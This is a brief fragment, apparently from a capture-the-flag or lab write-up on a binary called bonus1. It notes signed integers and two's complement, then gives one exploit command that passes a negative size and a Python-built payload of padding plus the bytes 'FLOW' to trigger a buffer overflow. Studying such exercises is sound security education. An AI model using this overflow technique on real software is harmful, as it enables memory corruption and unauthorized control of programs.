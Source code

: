signed integer
twos complement

./bonus1 -2147483637 $(python -c 'print("a"*40 + "\x46\x4C\x4F\x57")')
